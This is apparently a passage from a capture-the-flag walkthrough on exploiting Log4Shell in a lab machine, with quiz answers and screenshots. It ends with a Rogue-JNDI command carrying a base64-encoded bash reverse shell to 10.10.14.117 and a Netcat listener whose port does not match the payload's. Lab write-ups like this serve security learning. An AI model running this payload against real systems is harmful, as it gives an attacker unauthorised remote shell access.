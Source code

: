 <figure><img src="../../.gitbook/assets/image (390).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn the complete process for the _Log4Shell_ vulnerability exploitation you can go [here](../../web-exploitation/broken-access-control/cve-log4shell.md)
{% endhint %}

***

* With this, I answered the next questions

<figure><img src="../../.gitbook/assets/image (372).png" alt=""><figcaption></figcaption></figure>

> Answer: _**389**_

***

<figure><img src="../../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>

> Answer: _**tcpdump**_

***

* Knowing this, I created a payload and mounted a server with _Rogue-JNDI_ to establish the communication and try to gain a reverse shell from the target machine. Then I set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to receive communication and resent the petition this time pointing to the mounted server, and successfully caught a shell from the target confirming it with the `whomai` command. Then I sanitized the terminal to interact better with it

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.117"
<strong>nc -nvlp444
</strong></code></pre>
